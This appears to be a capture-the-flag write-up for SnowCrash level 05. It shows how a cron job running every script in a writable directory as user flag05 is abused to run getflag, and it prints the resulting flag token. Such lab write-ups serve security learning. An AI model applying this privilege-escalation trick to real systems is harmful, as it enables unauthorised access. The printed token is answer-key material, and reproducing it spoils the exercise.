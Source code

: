 # SnowCrash Level 05

## Introduction
Welcome to SnowCrash Level 05! In this level, we encountered challenges related to file ownership, cron jobs, and script execution.

## Initial Exploration
We initiated our investigation by searching for all files owned by flag05 using the command:
```bash
find / -user flag05 2> /dev/null
```
This command yielded:
```
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

Additionally, we found a file named level05 using the command:
```
find / -iname level05 2> /dev/null
```
Among other files, we discovered /var/mail/level05, which turned out to be a cron file containing:
```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

```

## Examination of openarenaserver

Upon examining the contents of /usr/sbin/openarenaserver, we found:
```
#!/bin/sh
for i in /opt/openarenaserver/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```
This script executes all scripts in /opt/openarenaserver and then erases them.
## Crafting the Exploit

To exploit this setup, we created a bash script in the /opt/openarenaserver directory to execute getflag and write the output to /var/tmp/test.txt.
Obtaining the Flag
```
#!/bin/bash

getflag > /var/tmp/test.txt
```

Upon execution of our script, we obtained the flag:
```
level05@SnowCrash:~$ cat /var/tmp/test.txt
Check flag. Here is your token: viuaaale9huek52boumoomioc
```
